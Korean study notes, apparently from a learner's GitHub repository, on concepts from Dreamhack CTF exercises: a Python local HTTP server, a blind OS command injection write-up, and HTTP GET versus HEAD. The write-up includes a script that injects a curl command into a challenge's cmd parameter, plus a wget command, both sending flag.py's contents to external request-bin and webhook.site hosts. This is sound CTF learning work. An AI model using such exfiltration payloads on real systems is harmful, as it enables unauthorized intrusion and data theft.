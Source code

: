 # 조각조각 개념들  
강의 듣고, 문제 풀면서 몰랐던 개념들 조각조각 정리  

## Python  

### run_local_server  
파이썬의 기본 모듈인 http를 이용하여 127.0.0.1의 임의 포트에 HTTP 서버 실행  
```http.server.HTTPServer```의 두번째 인자로 ```http.server.SimpleHttpRequestHandler```를 전달하면, 현재 디렉터리를 기준으로 URL이 가리키는 리소스를 반환하는 웹서버가 생성됨.  
호스트가 127.0.0.1이므로 외부에서 이 서버에 직접 접근하는 것은 불가능  

 ```
 local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler # 리소스를 반환하는 웹 서버
)
def run_local_server():
    local_server.serve_forever()
    
    
threading._start_new_thread(run_local_server, ()) # 다른 쓰레드로 `local_server`를 실행합니다.
 ```  
 
### curl  
#### blind-command 문제 롸업에서 처음 사용  
```
if __name__ == "__main__":
    chall_port = int(sys.argv[1])
    result_export = 'curl https://wmpjlbd.request.dreamhack.games -d "$(cat flag.py)"'
    
    chall_url= f"http://host3.dreamhack.games:{chall_port}?cmd={result_export}"
    response = requests.head(chall_url)
    
    print(response)
    print(response.headers)
    print(response.text)
```  
Blind Command Injection은 사용자의 입력이 시스템 명령에 사용될 수 있는 공격인 OS Command Injection의 한 종류로 **시스템 명령의 수행 결과 값을 알 수 없을 때** 사용하는 방법  
* head 으로 무조건 request를 보내야했는데 그럼 response에는 header만 포함되기 때문에 body에 담겨오는 flag를 받을 수 없음  
* 그렇다면 서버 내에서 시스템 명령어를 실행하고 결과 값을 외부로 전송하는 방식으로 flag를 확인해야 함. 일단 flag.txt 결과 값을 전달 받을 외부 서버를 임시로 생성 -> [dreamhack request bin](https://tools.dreamhack.games/requestbin/wmpjlbd) 사용  
* HEAD 메소드로 cmd 파라미터 값을 통해 flag.txt 값을 외부 서버로 전송(curl, wget 명령어 이용)하고, 정상 응답을 확인  
```wget 	https://webhook.site/640f1057-1cf9-476a-8070-31590aadc2c3 --method=POST --body-data="`cat flag.py`"```  
* 공백 등 기호를 손상없이 보내고 싶으면 URL Encoding 사용  
 
## Network  
 
### http method  
* GET 과 HEAD  
차이점은  
1. HEAD 메소드는 GET 메소드의 요청과 동일한 응답을 요구하지만, 응답 본문을 포함하지 않는다. 포함 되더라도, 이를 무시한다.  
2. HTTP 요청 시에도, GET메소드는 헤더와 데이터를 서버에게 보낸다. HEAD메소드는 헤더 정보 외에는 전송하지 않는다.  

만약 GET method 조건을 우회하고 싶다면, POST를 쓰지 못하는 상황이라면 HEAD를 이용해보자!  
OPTION을 이용해 어떤 메소드를 쓸 수 있는지 확인하는 것도 방법  


